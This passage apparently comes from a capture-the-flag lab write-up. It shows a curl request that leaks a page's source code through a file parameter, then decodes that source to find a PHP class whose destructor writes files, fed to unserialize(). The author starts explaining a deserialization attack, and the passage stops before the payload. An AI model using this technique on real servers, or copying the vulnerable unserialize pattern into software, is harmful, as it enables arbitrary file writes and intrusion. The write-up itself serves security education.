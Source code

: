 I tested for several LFI payloads but none of them worked. Then I tried to read the source code of the page. 

```bash
$ curl http://10.10.186.176/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/?file=index.php

3d3d67432b384349794a47502b7757623068324c386f67507641696369786a50355232626939435067414349676f67507641696369786a5030425861794e326376776a50694d6e617534576174354363684a48647a523362764a324c7a70324c7a52585a7a4e585969307a59794e484930425861794e32633841434967414349674143494b347a4c67496e5938344464776c6d636a4e334c38346a497a706d4c756c5762754d6a4c78456a4c78305365795657647870324c7a70324c7a52585a7...
```

## PHP Deserialization Attack

We got a pretty long hex encoded string. After I decoded it, I got a reverse base64 encoded string. So, I decoded it again and got the source code of the page.

```php
<?php
error_reporting(0);
class file {
        public $file = "dump.txt";
        public $data = "dump test";
        function __destruct(){
                file_put_contents($this->file, $this->data);
        }
}


$file_name = $_GET['file'];
if(isset($file_name) && !file_exists($file_name)){
        echo "File no Exist!";
}

if($file_name=="index.php"){
        $content = file_get_contents($file_name);
        $tags = array("", "");
        echo bin2hex(strrev(base64_encode(nl2br(str_replace($tags, "", $content)))));
}

unserialize(file_get_contents($file_name));
?>
```



I can use the `file` class to write a file. So let's perform a PHP deserialization attack.

PHP deserialization attack is a type of attack where an attacker could create a malicious object and serialize it. When the server unserializes the object, the malicious code gets executed.

The `unserialize` function gets a string and converts it back to an object. 

To create a malicious object, I used the following code.
